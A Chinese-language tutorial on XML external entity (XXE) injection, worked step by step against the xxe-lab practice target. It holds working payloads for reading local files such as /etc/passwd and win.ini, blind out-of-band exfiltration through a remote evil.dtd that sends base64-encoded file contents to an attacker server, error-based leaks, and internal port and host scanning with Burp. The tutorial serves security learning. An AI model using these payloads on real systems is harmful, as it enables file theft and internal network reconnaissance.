# 1.**XML基础**

参考：https://www.cnblogs.com/bmjoker/p/9452222.html

## 1.1.**XML基础介绍**

这里我对XML也不是太懂，无法对其进行解释，同时也怕解释出现错误，使其误导，这里我发一下参考链接。

XML教程：https://www.w3school.com.cn/xml/index.asp

Extensible Markup Language (XML) 1.0：https://www.xml.com/axml/axml.html

## 1.2.**XML文档结构**

XML文档结构包括XML声明、DTD类型定义（可选）、文档元素，同时XXE漏洞和DTD文档相关，所以这里主要对DTD进行介绍。

```xml
<!--XML申明-->

<?xml version="1.0"?> 

<!--文档类型定义-->

<!DOCTYPE note [  <!--定义此文档是 note 类型的文档-->

<!ELEMENT note (to,from,heading,body)>  <!--定义note元素有四个元素-->

<!ELEMENT to (#PCDATA)>   <!--定义to元素为”#PCDATA”类型-->

<!ELEMENT from (#PCDATA)>  <!--定义from元素为”#PCDATA”类型-->

<!ELEMENT head (#PCDATA)>  <!--定义head元素为”#PCDATA”类型-->

<!ELEMENT body (#PCDATA)>  <!--定义body元素为”#PCDATA”类型-->]]]>

<!--文档元素-->

<note>

<to>Dave</to>

<from>Tom</from>

<head>Reminder</head>

<body>You are a good man</body>

</note>
```


## 1.3.**DTD介绍**

文档类型定义（DTD）可定义合法的XML文档构建模块，它使用一系列合法的元素来定义文档的结构。DTD 可

被成行地声明于XML文档中（内部引用），也可作为一个外部引用。

内部声明DTD:\<!DOCTYPE 根元素 [元素声明]>

引用外部DTD:\<!DOCTYPE 根元素 SYSTEM "文件名">

DTD文档中有很多重要的关键字如下：

DOCTYPE（DTD的声明）

ENTITY（实体的声明）

SYSTEM、PUBLIC（外部资源申请）

实体根据引用方式，还可分为内部实体与外部实体，看看这些实体的申明方式。

## 1.4.**实体类介绍**

参数实体用%实体名称申明，引用时也用%实体名称;其余实体直接用实体名称申明，引用时用&实体名称。

参数实体只能在DTD中申明，DTD中引用；其余实体只能在DTD中申明，可在xml文档中引用。

内部实体：

\<!ENTITY 实体名称 "实体的值">

外部实体：

\<!ENTITY 实体名称 SYSTEM "URI">

参数实体：

\<!ENTITY % 实体名称 "实体的值">

或者

\<!ENTITY % 实体名称 SYSTEM "URI">

## 1.5.**外部实体**

由于XXE漏洞主要是利用引入外部实体，而导致的漏洞，所以这里主要了解外部实体。而外部实体又分为很多的类型。这里面的类型一些是在之前比如文件包含等中提到的一些协议，以及未提及到的协议。

外部实体在DTD中使用

\<!ENTITY 实体名称 SYSTEM "URI">

根据程序不同，能够引入的实体也是不同的，例如：

 

外部实体演示：

```xml
<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE a [   

<!ENTITY content SYSTEM "file:///etc/passwd">]>

<foo>

​    <value>&content;</value> 

</foo>
```


# 2.**XXE漏洞基本介绍**

XXE漏洞，相对来说是比较难理解的，我在总结XXE的时候也是通过看视频以及看文章进行总结的，确实有很多的但是，感觉总结的也不是太好，但是基本上把相应的流程以及测试的方式都进行了总结。

当然如果想细学，我的总结并不是很好，可以去网上的视频或者文章去参考参考。这里我也给一个比较好的参考的文章。

一篇文章带你深入理解漏洞之 XXE 漏洞：https://xz.aliyun.com/t/3357#toc-12

CTF XXE：https://www.cnblogs.com/20175211lyz/p/11413335.html

## 2.1.**XXE漏洞基本概念**

XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义(可选)、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。XXE漏洞全称XMLExternal Entity Injection，即xml外部实体注入漏洞。

XML就是传输和存储数据的一个类型。

XXE就是xml的漏洞注入的全称。

## 2.2.**XXE漏洞危害**

XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。

## 2.3.**XXE漏洞输出形式**

XXE漏洞的输出显示分为：有回显、无回显。

有回显就能够配合协议以及外部引入进行攻击。

无回显就需要配合外部引入-反向链接配合。

## 2.4.**XXE漏洞相关差异**

XML和HTML的差异

XML被设计为数据传输和存储数据，其焦点是数据的内容。

HTML被设计用来显示数据，其焦点是数据的外观。

HTML指在显示信息，而XML指在传输数据。

# 3.**XXE漏洞测试**

在测试中所有的语句基本上的固定格式，也就是说构建的payload基本上只需要修改调用协议，以及相关的参加即可，其它的格式，都是固定的可以直接使用。

## 3.1.**有回显测试**

像之前提到的，如果有回显，那么就可以配合更多的协议或外部引入进行利用。那么这里就先简单测试一下有回显状态。

### 3.1.1.**有回显案例**

这里我们使用xxe-labs靶场。下载链接：https://github.com/c0ny1/xxe-lab

#### 3.1.1.1.**测试回显位置**

通过测试，能够看到在admin位置是存在回显的，而后面的password位置的1是没回显的。

 

#### 3.1.1.2.**构建payload**

构建payload后，也是成功的读取到了文件。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE test [

<!ENTITY name SYSTEM "file:///c://windows/win.ini">

]>

<user><username>&name;</username><password>1</password></user>
```

 

## 3.2.**无回显测试**

参考：https://xz.aliyun.com/t/3357#toc-0

无回显的情况又称为blind xxe可以使用外带数据通道提取数据。而且在正常的环境下，服务器端通常都会把回显取消。因此我们解决该问题最好的办法就是使用外带的方式。

其实也就是测试是否支持DTD引用外部实体。

### 3.2.1.**无回显常规测试案例**

#### 3.2.1.1.**关闭报错及输出**

这里我们先把XXElabs靶场的输出及报错都关闭，模拟无回显情况。在账号上面添加一个error_reporting(0);，然后在下面的echo $result;前面添加一个//，即可模拟成功。

 

#### 3.2.1.2.**抓包测试**

这里我们首先抓包进行测试，可以发现不在出现报错，以及原来显示的位置也不在显示。

 

#### 3.2.1.3.**构建payload**

这里需要在外部搭建一台vps，而这里我就直接使用虚拟机完成吧，无回显需要查看服务器的访问日志，当存在访问日志了，那么就可以证明是支持外部实体的，若不存在日志，则证明不支持外部实体，或者被WAF拦截。

payload：

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY [

<!ENTITY % shit SYSTEM "http://192.168.10.50/1.txt">

%shit;

]>
```

 

#### 3.2.1.4.**查看服务器日志**

这里去攻击者服务器上查看一下日志，可以看到在服务器的访问日志中，查看到是存在一条访问日志的，那么就可以证明是支持外部实体的。

 

### 3.2.2.**无回显DNSlog测试案例**

上面的常规测试是需要我们自己搭建一个vps来进行测试，那么如果在刚开始测试的时候，不方便把自己的服务器地址暴露出来怎么办？

#### 3.2.2.1.**DNSlog方式**

通过DNSlog方式看服务器是否有DNS或者HTTP的请求。但是由于不确定因素以及处于安全角度来考虑使用外部的DNSlog不安全，那么可以使用burp中自带的有官方架设的默认公共服务器上的DNSlog服务器。

DNSlog位置：

 

点击后，会弹出一个创建，复制子域名即可。当请求中就会在下面的窗口中显示相关的请求信息。同时这个窗口不能关闭，若关闭了，那么就会销毁相关的信息。

 

#### 3.2.2.2.**构建payload**

其实这里的payload和之前的payload基本一致。这里需要注意的是，我们复制的子域名是没有http://的需要我们自己添加上去。所以修改下面的payload的时候只需要把http://后面的内容替换即可，设置好后，点击发送。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

<!ENTITY % d SYSTEM "http://azdvir9dgkpw9k7rvah25bccz35tti.burpcollaborator.net">

%d;

]>
```

 

#### 3.2.2.3.**查看效果**

发送完成后，点击现在轮询，当然也可以在复制子域名后就开始轮询，这边可能需要稍等一会就能显示出来，因为设置的轮询是60秒。当看到结果后就可以判断是可以使用外部引入的。

 

## 3.3.**总结**

以上都是简单测试，以及了解相关的payload如何构建，下面才是真实的案例。

# 4.**任意文件读取**

所谓的任意文件读取，其实也就是读取受害者服务器中的敏感文件。这里同样分为无回显和有回显操作。这里我们使用xxe-labs靶场做演示，之前有提到这个靶场在那下载。

## 4.1.**有回显案例**

### 4.1.1.**抓包**

我们在打开靶场后，输入账号和密码后对其进行抓包，如何放到重放器中。当然这里的账号和密码随便输都行。

 

### 4.1.2.**构建payload**

我们通过构建的payload对Windows中的配置文件，进行读取，也是成功读取了。

payload：

```xml
<?xml version="1.0" encoding="UTF-8" ?>

<!DOCTYPE foo [ 

<!ENTITY rabbit SYSTEM "file:///c:/windows/win.ini" >

]>

<user><username>&rabbit;</username><password>123</password></user>
```

 

## 4.2.**无回显案例**

### 4.2.1.**修改配置文件**

这里为了演示修改，我们把xxelabs中的报错和回显都关闭。

 

### 4.2.2.**测试是否回显**

通过测试发现是，无法回显了，这里需要注意，若你还是存在回显，那么刷新一些页面重新加载一下。

 

### 4.2.3.**构建payload**

准备一台攻击服务器，当然本地的使用虚拟机即可，并且开启服务器的访问日志。在根目录下创建一个evil.dtd文件。

payload：

```xml
<!ENTITY % all

"<!ENTITY % send SYSTEM 'http://192.168.10.50/?data=%file;'>"

\>

%all;

然后构建攻击payload。

payload：

<!DOCTYPE updateProfile [

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">

<!ENTITY % dtd SYSTEM "http://192.168.10.50/evil.dtd">

%dtd;

%send;

]>
```

 

### 4.2.4.**查看访问日志**

这里的查看访问日志，是在攻击者的服务器上查看，不要搞错。可以通过下面的图片看到，我们成功获取到日志。

 

### 4.2.5.**查看日志内容**

由于是base64加密的，所以我们还需要对其进行解密，通过解密可以看到，日志的内容和Windows中的win.ini的内容是一样的。

 

### 4.2.6.**调用解释**

这里需要结合payload进行理解，不然单单看解释有点难理解。

在构建的payload中会发现，可以看到挺难理解的，我们根据构建的payload进行解释一下，首先%dtd去调用vps上的evil.dtd文件，这个有点类似于将evil.dtd文件包含进来的感觉，然后调用evil.dtd文件中的%all，%all再去调用%file，而%file就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到%send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 %)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，成功解决外带的情况。

## 4.3.**基于报错案例**

基于报错的原理和无回显类似，无回显通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。所以和无回显的构造方式几乎只有url出不同，其他地方一模一样。

简答来说，报错就是将返回的数据，本该返回回去，但由于URL地址是错误的，那么就会出现报错，将数据显示在报错中。

参考链接：[https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/](https://blog.szfszf.top/tech/blind-xxe-详解-google-ctf-一道题目分析/)

### 4.3.1.**引入服务器文件案例**

引入服务器文件的操作和无回显案例基本一致，就是上面提到的解释。

#### 4.3.1.1.**修改配置文件**

这里为了能够实现报错，需要在配置文件中，将不显示报错内容给注释了。需要将浏览器重新刷新一下，重新抓包。

 

#### 4.3.1.2.**构建payload**

首先在攻击者服务器中创建evil.dtd文件，在文件中写入payload，在这个payload中会存在一个hhhhh的地方，原本在无回显中这里会写上服务器的IP地址，但是这里随便写一个不存在的地址，使其能够出现报错。

payload：

```xml
<!ENTITY % start "<!ENTITY % send SYSTEM 'file:///hhhhhhh/%file;'>">

%start;

构建攻击的payload的语句。

payload：

<?xml version="1.0"?>

<!DOCTYPE message [

<!ENTITY % remote SYSTEM "http://192.168.10.50/evil.dtd">

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">

%remote;

%send;

]>

<message>1234</message>
```


#### 4.3.1.3.**测试效果**

通过返回的数据包内容，可以看到原本应该出现在服务器日志中的编码的数据，现在在前端中了，而这就是基于报错的原因。

 

#### 4.3.1.4.**编码还原**

我们对编码进行还原，查看效果。

 

### 4.3.2.**通过引入本地文件**

关于引入本地文件，通过上面的参考链接中的作者的话，这样可行，但是引入本地链接，我这边没有靶场，不好进行测试，如果感兴趣可以去作者的文章中去了解一些，但是，引入本地文件，必然不是一件容易的事。实现起来不管是引入外部或内部，都挺困难的。当然在黔驴技穷的时候，这也是一个不错的办法。

# 5.**探测端口存活**

这里端口探测，经过测试，不管有没有回显，都只能靠响应时间来进行判断，这里如果不好判断，可以优先测试一下正常不会开放的端口，然后查看响应时长，然后再去测试一下，正常会开放的端口，例如：3389、80、443、22、23等端口。然后比较两个响应的时长，通常来说，端口开放了，响应会快一点，而端口未开放则响应会比较慢。

## 5.1.**探测端口案例**

这里依旧是使用xxelabs靶场做演示，这里我也不改什么回显不回显的情况了，直接进行测试。

### 5.1.1.**抓包**

这里把抓到的包放入重放器中。

 

### 5.1.2.**构建payload**

这里我开放了3389端口以及80端口，未开放22端口以及23端口。我们分别进行测试。

这里有两种payload，一种是直接在回显位置修改，一种是不需要管回显位置的内容，同时这里面输入的IP是内网中你想要测试的IP地址以及后面的端口号。这里我只测试一个payload。

1. payload：

```xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM "http://192.168.10.50:3389" >]>

<user><username>&xxe;</username><password>123456</password></user>
```


2. payload：

```xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM "http://192.168.10.50:3389" >]>

<root>

<name>&xxe;</name>

</root>
```


### 5.1.3.**测试开放端口**

这里首先测试3389端口和80端口，注意看右下角的响应时间。

#### 5.1.3.1.**测试3389端口**

在测试3389端口后，页面的响应时间为29毫秒。

 

#### 5.1.3.2.**测试80端口**

可以看到，我们测试80端口，响应时间为67毫秒。当我们使用第一种payload的时候同时存在回显的话，页面中就会把80端口页面中的信息也显示出来了，这里测试的结果是不是就可以间接性读取内网中其它服务器的敏感文件？

 

### 5.1.4.**测试未开放端口**

这里测试22端口以及23端口，主要看右下角响应时间，同时你也会发现一个问题。

#### 5.1.4.1.**测试22端口**

测试22端口后，响应的时间达到了1秒多，并且会发现，右下角之前都是中文，好像变成中文了，这里其实我也不太懂，因为我是这是中文汉化的，所以可能不能作为一个判断来处理，还是主要看响应时间吧。

 

#### 5.1.4.2.**测试23端口**

其实测试23端口后，发现同样也是1秒多。

 

## 5.2.**自动化探测端口**

### 5.2.1.**抓包并修改**

这里还是一样将抓到的包，并添加payload。

 

### 5.2.2.**发送测试器**

将修改好的包发送到测试器中，然后进行爆破。

 

### 5.2.3.**设置变化内容**

首先将所有的自动选择的内容全部清除，然后将设定要变化的端口。

 

### 5.2.4.**设置载荷**

我这里为了测试方便，我就随便输入几个端口，输入端口完成后，点击开始攻击

 

### 5.2.5.**查看攻击效果**

这里首先需要将列中接受响应计数勾上，然后点击接受响应计数，就会自动将最短的响应时长排在前面，这样我们就能够完成自动化测试了，无需手动测试，我这里挡住了，实在短时间的端口是3389和80，由于设置的时候多设置了一个3389，所有这里显示有3个短时间的。

 

## 5.3.**总结**

从响应的时间对比，其实不难看出，当端口开放的时候就可以响应时间就比较快，而端口未开放的时候响应时间就比较长。

# 6.**探测主机存活**

这里的探测主机存活使用payload的以及判断和探测端口是基本上是一样的，只是将后面的端口取消，这里就放一个payload，需要注意哦，这里是基于xxelabs靶场构建的payload的。正常的payload可以看探测端口案例中构建的第二个payload，那个才是正常的。

payload：

```xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM "http://192.168.10.51" >]>

<user><username>&xxe;</username><password>123456</password></user>
```


## 6.1.**自动化探测主机存活**

这里我就不演示手动测试的了，只演示自动化的。

### 6.1.1.**设置变化内容**

这里选中主机的最后一位，设置为变化的内容。

